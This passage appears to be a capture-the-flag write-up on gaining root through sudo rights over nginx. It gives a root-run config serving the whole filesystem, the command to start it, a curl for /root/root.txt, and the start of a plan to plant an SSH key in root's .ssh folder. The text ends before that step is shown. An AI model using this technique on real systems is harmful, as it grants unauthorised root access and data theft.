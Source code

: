 # Lfi

in both path we need to create a config file for our server to run.<br>
I did so in a /tmp directory because we don't have permissions over the /etc/nginx config folder and the file can also be located elsewhere.<br>
This is the config file that i created, to create the file you can visit [this website](https://www.plesk.com/blog/various/nginx-configuration-guide/):
```bash
cat /tmp/myrootwebserver.conf
```
output:
```bash
user root;
worker_processes 3;

events {
    worker_connections 1024;
}

http {
    server {
        listen 7331;
        root /;
        autoindex on;
    }
}
```
now to start our server from a particular config file we can run:
```bash
sudo /usr/sbin/nginx -c /tmp/myrootwebserver.conf
```
now we just need to curl the file we want on the remote machine using:
```bash
curl http://127.0.0.1:7331/root/root.txt
```

# RCE

By doing so we had access to the entire system but we couldn't execute any code. if we want to do so we just need to slightly
modify our config file to make it do something different.<br>
In fact instead of downloading files from the filesystem we can upload an RSA public key on the root .ssh folder so we can login with our private key<br>
First we need to create a ssh key pair on our local machine:
```bash
ssh-keygen
```
output:
	